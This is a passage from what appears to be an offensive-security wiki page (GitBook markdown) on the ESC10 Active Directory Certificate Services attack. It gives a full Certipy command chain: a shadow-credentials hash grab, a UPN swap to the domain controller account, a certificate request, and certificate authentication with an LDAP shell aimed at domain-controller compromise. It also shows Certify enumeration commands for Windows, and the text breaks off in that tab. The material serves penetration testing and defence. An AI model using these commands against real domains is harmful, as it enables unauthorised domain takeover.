 {% hint style="warning" %}
At the time of writting (06/08/2022), there is no solution as a low privileged user to read the `CertificateMappingMethods` value. It is worth to try the attack hopping the key is misconfigured.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC10 scenario.

In this scenario, **user1** has `GenericWrite` against **user2** and want to compromise the domain controller **DC$@domain.local**.

First, the **user2**'s hash is needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example.

```bash
certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
```

Then, the `userPrincipalName` of **user2** is changed to **DC$@domain.local**.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "DC\$@$DOMAIN"
```

A certificate permitting client authentication can be requested as **user2**.

```bash
certipy req -username "user2@$DOMAIN" -hash "$NT_HASH" -ca 'ca_name' -template 'User'
```

The **user2**'s UPN is changed back to something else.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
```

Now, authentication with the obtained certificate will be performed through Schannel. The `-ldap-shell` option can be used to execute some LDAP requests and, for example, realised an [RBCD](../kerberos/delegations/rbcd.md) to fully compromised the domain controller.

```bash
certipy auth -pfx dc.pfx -dc-ip "$DC_IP" -ldap-shell
```

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```batch
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /currentuser
```
